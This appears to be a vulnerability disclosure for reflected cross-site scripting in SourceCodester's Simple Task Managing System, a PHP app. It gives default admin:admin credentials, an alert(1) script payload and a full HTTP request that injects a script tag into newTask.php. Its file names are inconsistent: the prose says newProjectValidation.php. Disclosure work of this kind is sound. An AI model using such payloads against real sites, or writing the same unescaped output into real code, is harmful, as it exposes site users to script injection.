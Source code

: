 # Simple Task Managing System - XSS2

A vulnerability classified as problematic was found in SourceCodester Simple Task Managing System. This vulnerability affects unknown code. The manipulation of the argument newProjectValidation.php leads to cross site scripting. The attack can be initiated remotely.

username:admin password:admin ----> {ip}/newProjectValidation.php

Supplier： https://www.sourcecodester.com/php/15624/simple-task-managing-system-php-mysqli-free-source-code.html

/newProjectValidation.php has XSS

> Payload: "><ScRiPt>alert(1)</sCrIpT>

XSS because $full can be closed

![image](https://raw.githubusercontent.com/xidaner/CVE_HUNTER/main/img/2022-09-01/6.png)

## Payload

```sql
GET http://localhost/cve/Task%20Managing%20System%20in%20PHP/newTask.php?sn=%3CsCrIpT%3Ealert(1)%3C/sCrIpT%3E HTTP/1.1
Host: localhost
Cache-Control: max-age=0
sec-ch-ua: ";Not A Brand";v="99", "Chromium";v="94"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.81 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=34a9idaoj7m7miduqt31hupisn
Connection: close
```

![image](https://raw.githubusercontent.com/xidaner/CVE_HUNTER/main/img/2022-09-01/4.png)

![image](https://raw.githubusercontent.com/xidaner/CVE_HUNTER/main/img/2022-09-01/5.png)